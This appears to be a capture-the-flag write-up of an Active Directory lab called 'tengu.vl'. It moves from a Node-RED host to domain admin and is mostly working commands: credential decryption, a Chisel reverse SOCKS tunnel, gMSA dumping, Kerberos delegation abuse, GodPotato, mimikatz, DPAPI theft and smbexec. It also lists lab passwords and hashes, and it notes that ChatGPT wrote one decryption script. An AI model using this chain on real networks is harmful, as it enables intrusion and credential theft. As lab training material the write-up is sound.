


## INFO

```
Machine 0x1
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x2
PORT     STATE SERVICE
3389/tcp   open  domain

Machine 0x3
PORT     STATE SERVICE
22/tcp     open  ssh
1880/tcp   open  vsat-control
```

```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.


Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


## NODE_RED


After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.


```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```

```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```


```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```


```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```


Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


Its the machine account hash NODERED$ . 


## SQL_SERVER


Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```




```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```


Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.


Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```


```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.


Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !


Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


## DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```


```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


